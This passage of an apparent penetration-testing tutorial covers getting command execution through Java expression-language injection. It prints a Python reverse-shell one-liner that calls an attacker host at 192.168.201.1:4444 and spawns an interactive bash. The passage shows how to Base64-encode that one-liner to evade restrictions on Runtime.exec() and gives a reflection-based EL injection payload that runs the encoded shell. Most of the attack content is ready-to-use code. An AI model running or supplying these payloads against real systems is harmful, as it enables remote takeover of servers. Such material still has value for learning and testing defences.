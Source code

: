 ```java
Runtime.getRuntime().exec()
```

<p align="justify">
This can happen for example when using commands with special characters. Such characters could be redirection and pipe characters, which could be used in a way that doesn't make sense in the context of the process that's being launched. So, to avoid this situation, we can use Base64 encoding. 
</p>

<p align="justify">
We will use the following python script to encode the python payload
</p>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">

import base64

encoded = base64.b64encode('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.201.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);')

print(encoded)
</pre>

<p align="justify">
When the code above executes, it will produce the following Base64 encoded payload
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMjAxLjEiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOw==
</pre>

<p align="justify">
At this point we are able to use the above encoded payload in order to bypass restrictions and execute the reverse tcp shell connection with the attacking machine as follows 
</p>

```python
python -c exec("aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMjAxLjEiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOw==".decode("base64"))
```

Also using the payload from inside the java code as follows

```java
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('python -c exec(\\\"aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMjAxLjEiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOw==\\\".decode(\\\"base64\\\"))')}
```
